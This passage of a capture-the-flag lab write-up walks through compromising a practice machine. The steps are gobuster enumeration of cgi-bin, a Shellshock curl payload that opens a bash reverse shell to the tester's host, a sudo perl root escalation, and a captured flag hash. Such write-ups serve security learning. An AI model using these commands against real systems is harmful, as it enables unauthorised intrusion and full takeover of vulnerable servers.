    ```bash
   gobuster dir -q -e -k -u http://10.10.10.56:80/cgi-bin/ -x sh -w /usr/share/dirb/wordlists/common.txt
   ```

2. Based on the name of the box, I attempted to exploit the shellshock vulnerability against this script file and it was successful.  I started a netcat listener and used this to create a reverse shell to Kali:

   ```bash
   curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.29/8000 0>&1' http://10.10.10.56:80/cgi-bin/user.sh
   ```

   ![image-20201022203723209](.Report.assets/image-20201022203723209.png)

3. I checked the sudo privileges for this user and they have access to run any perl command as root without password prompt.  I used this to spawn a shell as root:

   ```bash
   sudo perl -e 'exec "/bin/bash -i"'
   ```

   ![image-20201023174437595](.Report.assets/image-20201023174437595.png)

4. From this root prompt, I was able to read the contents of the /root/root.txt file:
   ![image-20201022204709996](.Report.assets/image-20201022204709996.png)
   user.txt:  2ec24e11320026d1e70ff3e16695b233
